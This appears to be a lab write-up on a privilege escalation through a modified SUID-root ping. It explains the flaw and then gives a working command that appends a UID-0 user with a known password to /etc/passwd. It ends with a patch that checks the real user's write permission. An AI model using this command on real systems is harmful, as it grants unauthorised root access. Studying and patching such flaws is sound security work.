 #   1. Getting `root` rights

##  Vulnerability

By studying `ping`'s source code, we can list a lot of interesting info about its behaviour:

1. The user can log the program's output by passing an argument:

`/usr/local/bin/ping -f /path/to/log/file localhost`

2. The user append an arbitrary message to the beginning of the program's output:

`/usr/local/bin/ping -m "Arbitrary message" localhost`

3. The SUID-bit is set:

`-rwsr-x--- 1 root students 103529 Apr 26  2011 /usr/local/bin/ping`

##  Exploit

An user can use the `-c` option (count) combined with the options mentioned on 1. and 2. to make `ping` do not send any request, but only to write arbitrary data to a file:

`/usr/local/bin/ping -c 0 -m "Arbitrary data" -f /path/to/file localhost`

From 3., an attacker could take advantage of the SUID rights to write arbitrary data to files owned by `root`, even though the user that launched the process does not have access to them.

##  Attack

An example attack that was tested on the target machine is adding an entry to root-owned `/etc/passwd`. An user with the same UID as `root` and a known password can be added, then the attacker can log in as this user and consequently as `root`.

To perform this attack, we have to choose a password and encrypt it with salt. Let `test` be our password. We can use `perl` in order to encrypt it:

`perl -le 'print crypt("test","SALT")'`

So we can combine this command line to the previous information to append an entry to `/etc/passwd`:

`/usr/local/bin/ping -c 0 -f /etc/passwd -m "root2:$(perl -le 'print crypt("test","SALT")'):0:0:root2:/root:/bin/bash" localhost`

After creating the new user `root2`, we can log into it with the password `test`. Since its UID is 0 (`root`'s UID), we will effectively logged in as root.

#   Patch

On `ping.patch` there is a fix that prevents the described attack from being performed. It consists of checking if the real UID has writing permissions to the specified log file in order to open and write data to it. If this is not the case, the program will log to `stdout` instead.

This patch blocks any attempt of exploiting the SUID property of `ping` to write to files the user is not allowed to.